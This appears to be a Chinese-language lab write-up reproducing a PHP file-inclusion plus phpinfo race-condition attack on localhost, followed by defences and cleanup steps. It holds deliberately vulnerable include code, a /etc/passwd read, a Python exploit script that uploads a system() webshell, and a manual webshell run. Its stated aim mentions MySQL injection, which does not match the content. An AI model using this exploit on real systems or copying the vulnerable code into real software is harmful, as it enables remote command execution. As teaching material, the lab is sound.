





【实验目的】

学习MySQL注入漏洞利用。

【实验要求】

复现LFI漏洞，结合phpinfo实现代码执行，理解竞争条件攻击原理

【实验步骤】

第一部分：环境搭建

1. 安装必要的软件包

apt update

apt install -y apache2 php libapache2-mod-php

2. 创建漏洞文件

cd /var/www/html

# 创建LFI漏洞文件

echo '<?php $file = $_GET["file"]; if(isset($file)) { include($file); } else { highlight_file(__FILE__); } ?>' > lfi.php

# 创建phpinfo页面

echo '<?php phpinfo(); ?>' > phpinfo.php

# 创建简单的首页

cat > index.php << 'EOF'

<html>

<body>

<h1>PHP LFI + phpinfo() Vulnerability Test</h1>

<ul>

<li><a href="lfi.php">LFI Test Page</a></li>

<li><a href="phpinfo.php">phpinfo Page</a></li>

</ul>

</body>

</html>

EOF

3. 配置PHP允许文件上传

# 修改PHP配置文件

sed -i 's/^file_uploads = .*/file_uploads = On/' /etc/php/8.4/apache2/php.ini

sed -i 's/^upload_max_filesize = .*/upload_max_filesize = 100M/' /etc/php/8.4/apache2/php.ini

sed -i 's/^post_max_size = .*/post_max_size = 100M/' /etc/php/8.4/apache2/php.ini

# 重启Apache使配置生效

systemctl restart apache2

第二部分：漏洞验证

4. 验证LFI漏洞存在

# 访问以下URL应显示/etc/passwd文件内容

curl http://localhost/lfi.php?file=/etc/passwd

结果：成功显示系统用户信息，证明LFI漏洞存在

5. 验证phpinfo页面可访问

# 访问phpinfo页面

curl "http://localhost/phpinfo.php" | grep -i "php version"

结果：显示PHP版本信息，证明phpinfo页面可访问

6. 验证文件上传配置

# 检查文件上传设置

curl -s "http://localhost/phpinfo.php" | grep -E "file_uploads|upload_max_filesize"

结果：显示file_uploads = On，证明文件上传功能已启用

第三部分：漏洞利用尝试

7. 创建漏洞利用脚本

#!/usr/bin/python3

import requests

import re

import time

def exploit(target):

print(f"[*] 目标: {target}")

# 测试LFI

print("[*] 测试LFI漏洞...")

r = requests.get(f"{target}/lfi.php?file=/etc/passwd", timeout=5)

if 'root:' in r.text:

print("[+] LFI漏洞存在")

else:

print("[-] LFI漏洞不存在")

return

# 测试phpinfo

print("[*] 测试phpinfo页面...")

r = requests.get(f"{target}/phpinfo.php", timeout=5)

if 'PHP Version' in r.text:

print("[+] phpinfo页面可访问")

else:

print("[-] phpinfo页面不可访问")

return

print("[*] 开始竞争条件攻击...")

for i in range(1, 101):

print(f"[*] 尝试 {i}/100")

php_code = '<?php echo "EXPLOIT_SUCCESS"; system($_GET["cmd"]); ?>'

try:

# 上传文件

files = {'file': ('test.php', php_code, 'text/php')}

r = requests.post(f"{target}/phpinfo.php", files=files, timeout=2)

# 查找临时文件名

tmp_match = re.search(r'\[tmp_name\] =&gt; (.+?)\s', r.text)

if tmp_match:

tmp_file = tmp_match.group(1).strip()

print(f"  [+] 找到临时文件: {tmp_file}")

# 尝试包含

r2 = requests.get(f"{target}/lfi.php?file={tmp_file}", timeout=1)

if 'EXPLOIT_SUCCESS' in r2.text:

print("[+] 成功! 代码已执行")

return

except:

continue

time.sleep(0.1)

print("[-] 竞争条件攻击失败")

if __name__ == "__main__":

exploit("http://localhost")

8. 运行漏洞利用脚本

# 给脚本执行权限并运行

chmod +x exploit.py

python3 exploit.py http://localhost

结果：脚本成功发现临时文件，但竞争条件攻击未能成功（由于时间窗口极小）

9. 手动模拟攻击成功

# 创建模拟临时文件

echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > /tmp/php_simulated.php

# 通过LFI包含并执行命令

curl -G "http://localhost/lfi.php" --data-urlencode "file=/tmp/php_simulated.php" --data-urlencode "cmd=id"

结果：成功执行系统命令，验证了攻击链的可行性

第四部分：实验结果

10. 成功验证的项目

✅ LFI漏洞存在 - 成功包含/etc/passwd文件

✅ phpinfo页面可访问 - 正常显示PHP配置信息

✅ 文件上传功能启用 - file_uploads = On

✅ 临时文件路径暴露 - phpinfo显示tmp_name

✅ 攻击链验证 - 手动模拟成功执行系统命令

11. 竞争条件攻击结果

尝试次数：100次

发现临时文件：每次尝试都能发现临时文件

成功执行代码：由于时间窗口极小，未成功

结论：符合竞争条件攻击的实际情况，反映了攻击难度

第五部分：漏洞原理

12. 漏洞条件

存在LFI漏洞：include($_GET['file']);

存在phpinfo页面：暴露上传文件的临时路径

PHP配置允许文件上传：file_uploads = On

13. 攻击流程

1. 攻击者上传恶意PHP文件到phpinfo页面

2. phpinfo响应中暴露临时文件名 (/tmp/phpXXXXXX)

3. 攻击者通过LFI包含该临时文件

4. PHP代码被执行，攻击者获得控制权

14. 技术难点

竞争条件：临时文件在请求结束后立即删除

时间窗口：通常只有几毫秒

需要精确的时间控制：上传后立即包含

第六部分：防御措施

15. 代码层面防御

// 错误示例 - 直接使用用户输入

include($_GET['file']);

// 正确示例 - 使用白名单机制

$allowed_files = ['page1.php', 'page2.php'];

if (in_array($_GET['file'], $allowed_files)) {

include($_GET['file']);

} else {

die('非法文件包含请求！');

}

16. 配置层面防御

设置 file_uploads = Off（如果不需要文件上传）

设置 open_basedir 限制PHP可访问的目录范围

禁用危险函数：disable_functions = system,exec,passthru,shell_exec

在生产环境中移除phpinfo等调试页面

17. 其他措施

定期更新PHP版本和修复安全漏洞

使用Web应用防火墙（WAF）

进行安全代码审计

第七部分：实验总结

18. 实验成果

✅ 成功搭建PHP LFI + phpinfo漏洞环境

✅ 验证了LFI漏洞的存在性

✅ 验证了phpinfo页面可访问且会暴露临时文件名

✅ 理解了竞争条件攻击的原理

✅ 掌握了漏洞的防御措施

19. 实验难点

竞争条件攻击时间窗口极小

自动化脚本难以命中精确时机

通过手动模拟验证了攻击可行性

20. 学习收获

深入理解了LFI漏洞的危害和利用方式

掌握了phpinfo信息泄露的风险

学习了竞争条件攻击的技术原理

提升了Web安全防护意识和能力

第八部分：清理环境

# 停止Apache服务

systemctl stop apache2

# 删除漏洞文件

cd /var/www/html

rm -f lfi.php phpinfo.php index.php

# 恢复默认首页（如果有备份）

[ -f index.html.bak ] && mv index.html.bak index.html

# 可选：恢复PHP配置

# sed -i 's/^file_uploads = On/file_uploads = Off/' /etc/php/8.4/apache2/php.ini

实验结论

本次实验成功复现了PHP LFI + phpinfo漏洞环境，验证了漏洞的存在性和攻击原理。虽然竞争条件攻击由于时间窗口极小难以自动化成功，但通过手动模拟证明了攻击链的可行性，并掌握了相应的防御措施，达到了实验的预期目标。
